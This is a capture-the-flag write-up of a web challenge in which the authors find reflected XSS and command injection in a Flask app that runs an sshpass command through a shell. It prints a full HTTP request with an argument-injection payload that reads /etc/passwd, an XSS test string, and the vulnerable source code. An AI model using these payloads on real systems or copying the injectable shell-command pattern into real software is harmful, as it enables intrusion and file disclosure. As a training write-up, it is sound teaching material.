 ```yaml
---
title: '[SpiderLabsCTF] Remote Management System'
published: true
tags: [writeup, web, rce, command_injection]
author: ishtar
category: ctf
---
```


# Remote Management System (Web)
At first, we provided real details in order to understand the application\'s logic.
    + Using `sshpass` utility, the server was connecting to an SSH server using the provided details
    + Upon login, the command `show config` was issued

We decided to test if the application would reflect back any output from the above command into the webpage. Thus, using `sudo cp /bin/cat /bin/show` we create a copy of the `cat` utility called `show` and using `echo "<script>aler(1)</script>" > config` we create the file that the server will request to read. Interestingly, the server reflected back the contents of the `config` file in the webpage and it was also vulnerable to XSS.

We tried several "payloads" in order to identify any other vulnerabilities like XXE, SSTI or characters that would break the applications logic. None of them worked.

Going back to the application, we tried to find a command injection vulnerability by manually trying to fuzz the available parameters using Burp. Good news, RCE was possible thus we started enumerating the server.

```
POST / HTTP/1.1
Host: spiderlabsctf.com:6060
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://spiderlabsctf.com:6060
Connection: close
Referer: http://spiderlabsctf.com:6060/
Upgrade-Insecure-Requests: 1

hostname=/&port=1&username=/&password=-w+less+-FX+/etc/passwd+%0a
```

After reading both `app.py` and `remoteapp.pyc` files (decompiled) we were unable to find the flag. We also used `grep FLAG -R /` in order to recursively check each file for the flag, without any luck.

`app.py`
```python
import sys
from remoteapp import remoteapp
from flask import Flask, request, render_template, Response
app = Flask(__name__)

@app.route("/", methods=['GET', 'POST'])
def manage():
    if len(request.form) > 0:
        output = remoteapp(request.form)
        return render_template('home.html', output=output)
    else:
        return render_template('home.html')
@app.route('/css/<path:path>')
def send_css(path):
    return Response(open("css/%s" % path, "r").read(), mimetype='text/css')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=int(sys.argv[1]))
```

`remoteapp.py (decompiled)`
```python
import subprocess, re, redis
from flask import Markup

def remoteapp(data):
    try:
        password = check_param(data['password'])
        username = check_param(data['username'])
        hostname = check_param(data['hostname'])
        port = int(data['port'])
        cmd = 'sshpass -p %s ssh -o StrictHostKeyChecking=no -p %s %s@%s show config' % (password, port, username, hostname)
        print cmd
        output = subprocess.Popen([cmd], shell=True, stdout=subprocess.PIPE, stderr=subprocess.STDOUT)
        stdout, stderr = output.communicate()
        return Markup("<div class='alert alert-warning'>%s</div>" % stdout)
    except:
        return Markup("<div class='alert alert-danger'>Could not fetch remote data</div>")


def check_param(data):
    if not re.match('^[a-zA-Z0-9 \\.:/\\-]*$', data):
        print '%s failed regex check' % data
        save_query(data)
        raise Exception('regex violation')
    return data


def save_query(data):
    instance = redis.StrictRedis(host='127.0.0.1', db=0)
    instance.set(data, data)
```

Finally, we saw that a redis server was running. Issuing a simple `redis-cli get FLAG` revealed the flag.

-ishtar
-CYberMouflons
